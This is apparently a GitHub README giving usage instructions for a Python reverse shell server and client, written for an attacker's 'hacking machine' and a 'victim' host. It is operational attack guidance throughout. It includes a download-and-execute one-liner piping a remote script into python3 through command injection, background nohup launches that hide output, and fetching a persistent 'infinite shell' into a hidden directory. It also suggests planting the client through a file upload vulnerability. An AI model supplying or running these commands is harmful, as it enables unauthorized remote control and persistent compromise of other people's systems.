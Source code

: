 # Usage

## On Hacking machine
`python3 rs_server.py`
<- edit the file to use the port you want or pass it in as an argument (default 8000). 

## Direct Client Deployment
`python3 rs_client.py`
^ edit the file to use the rs_server IP and port you want. 

Or pass them in as an argumenta (default port 8000)
`python3 rs_client.py <rs_server_ip> <rs_server_port>`

Or run as a backgroud job
`nohup python3 rs_client.py <hacker_ip> &> /dev/null &`

## Indirect Client Deployment [PREFERRED]
(works with cmd line injection)

- [SERVER] Host rs_client.py somehere
- - One option is to start a python web server on the rs_server
- - `python3 -m http.server 8080`   
- [CLIENT] Download + Execute from client machine
- - `wget -O - rs_server:8080/rs_client.py | python3`
- [SERVER] Download + Execute the Infinite shell (keeps rs_client active if it disconnects)
- - Follow these steps once server is connected to client.
- - Navigate to specific dir or Make a hidden dir
- - - `cd /usr/bin/local`  
- - Download from your rs_server
- - - `wget -q rs_server:8080/infiniteShell.sh &> /dev/null ; bash infiniteShell.sh &`
- - Run in background witn nohup  
- - - `nohup bash infiniteShell.sh &> /dev/null &`


## Indirect Client Deployment [ALT]
- Could also exploit a file upload vulnerability and upload the file onto the victim's machine


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

